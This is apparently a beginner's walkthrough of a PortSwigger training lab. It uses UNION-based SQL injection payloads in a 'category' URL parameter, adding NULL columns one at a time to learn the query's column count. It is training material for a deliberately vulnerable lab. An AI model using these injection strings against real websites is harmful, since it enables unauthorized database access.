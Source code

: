 ## Welcome, my friend. Today we will start the [8. SQLLI lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/3f3d45b8-1cfe-4b25-8db1-493005642d00)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/2ef863bf-3fea-4e67-af7d-0dbc93f195ce)


### We discover this page and find category paramater ```/filter?category=```.
### Let's test and inject this param:

```
filter?category=Pets' UNION SELECT NULL--
```
![image](https://github.com/user-attachments/assets/80413172-d1ad-4659-9825-4fd8e7e93917)


### Ok, no there one value , Let's go guess ```2``` value:

```
filter?category=Pets' UNION SELECT NULL,NULL--
```

![image](https://github.com/user-attachments/assets/8cfd80c3-8e02-4619-a36c-d38fa30c86ac)

### Ok, no there 2 value , Let's go guess ```3``` value:

```
filter?category=Pets' UNION SELECT NULL,NULL,NULL--
```

![image](https://github.com/user-attachments/assets/4a7cfdb6-88fd-482d-aa68-9bfd5867f4f4)



-------------------------


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
